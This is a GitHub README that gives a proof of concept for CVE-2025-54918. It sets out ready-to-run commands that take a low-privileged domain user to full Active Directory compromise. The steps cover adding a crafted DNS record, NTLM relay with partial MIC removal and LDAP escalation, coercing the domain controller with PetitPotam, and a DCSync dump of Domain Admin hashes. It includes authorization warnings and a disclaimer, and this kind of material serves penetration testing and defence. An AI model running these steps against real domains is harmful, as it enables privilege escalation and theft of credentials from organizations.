





# CVE-2025-54918 – Proof of Concept (PoC)

## ⚠️ Important Notice

> **IMPORTANT:**  
> To test **CVE-2025-54918**, you **must create a DNS record in the target Active Directory environment**.  
> Always consult with the client and obtain **explicit authorization** before testing, as this can impact DNS and authentication behavior in production environments.

This repository contains a **technical Proof of Concept** demonstrating how a **low-privileged domain user** can escalate to **Domain Admin–level access** by abusing **NTLM reflection combined with authentication coercion**.

Note: the CVE is exploitable even with signing set to True, which is the default for a domain controller. Also, CVE-2025–54918 fix was for windows 2025 , and CVE-2025–33073 fixed (unintended) for windows 2022.

A more technical breakdown is available on my medium page: https://yousofnahya.medium.com/hands-on-exploitation-of-cve-2025-54918-cf376ebb40e1

---

## Environment

- **Domain Controller IP:** `192.168.140.150` (Signing is True which is the default for a domain controller)
- **Attacker IP:** `192.168.140.135`
- **Domain:** `nahya.local`
- **User:** `test` Valid domain user (no DCSync privileges)

---

## Tooling

Clone the required repositories:

```bash
git clone https://github.com/dirkjanm/krbrelayx.git
git clone https://github.com/decoder-it/impacket-partial-mic.git
```

---

## Baseline Validation (Expected Failure)

Verify that the user cannot perform DCSync prior to exploitation:

```bash
python3 impacket-partial-mic/examples/secretsdump.py USERNAME:PASSWORD@DC
```


---

## Step 1: Add Malicious DNS Record

Create a DNS record using the **NetBIOS name + 1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA** that resolves to the attacker IP.

```bash
python3 dnstool.py -u 'nahya.local\USERNAME' -p 'PASSWORD' \
  dc.nahya.local -a add \
  -r 'localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA' \
  -d '192.168.140.135' -dns-ip 192.168.140.150
```



---

## Step 2: Start NTLM Relay (Terminal 1)

Run `ntlmrelayx` with **partial MIC removal** and LDAP escalation enabled:

```bash
python3 impacket-partial-mic/examples/ntlmrelayx.py --remove-mic-partial -smb2support -t ldaps://DC  --escalate-user USERNAME  --no-validate-privs
```



---

## Step 3: Coerce Domain Controller Authentication (Terminal 2)

Force the Domain Controller to authenticate to the attacker-controlled DNS record using a coercion technique (PetitPotam):

```bash
nxc smb DC -u 'USERNAME' -p 'PASSWORD' -M coerce_plus -o METHOD=PetitPotam LISTENER=localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
```



---

## Step 4: Verify Exploitation (DCSync)

Re-run `secretsdump` to confirm privilege escalation:

```bash
python3 impacket-partial-mic/examples/secretsdump.py USERNAME:PASSWORD@DC
```

✅ Expected result: Successful **DCSync** and retrieval of **Domain Admin hashes**



---

## Result

At this point, the attacker has:
- Relayed NTLM authentication from the Domain Controller (Signing True)
- Escalated privileges via LDAP
- Achieved **DCSync**, resulting in **full domain compromise**

Refer to the **Medium article** for an in-depth explanation of the vulnerability and attack chain.

---

## 🙏 Credits

This work would not have been possible without:

- **Bryan De Houwer** – Author of **CVE-2025-54918** https://www.linkedin.com/in/bryan-de-houwer/
- **Andrea Pierini** – For his excellent research and blogs at **decoder.cloud** https://www.linkedin.com/in/andrea-pierini-aba9a37/
- **Andrea Pierini** – For the `impacket-partial-mic` implementation  
  https://github.com/decoder-it/impacket-partial-mic

---
## 🔗 References

- **Analyzing NTLM & LDAP Authentication Bypass Vulnerability** – CrowdStrike Blog  
  https://www.crowdstrike.com/en-us/blog/analyzing-ntlm-ldap-authentication-bypass-vulnerability/

- **Microsoft Security Advisory – CVE-2025-54918** – MSRC Update Guide  
  https://msrc.microsoft.com/update-guide/advisory/CVE-2025-54918

---

## Disclaimer

This Proof of Concept is provided **for educational and authorized security testing purposes only**.

- Do not use this technique against systems you do not own or have explicit permission to test.
- The author assumes **no responsibility** for misuse or damage.
- Always follow responsible disclosure and ethical hacking practices.
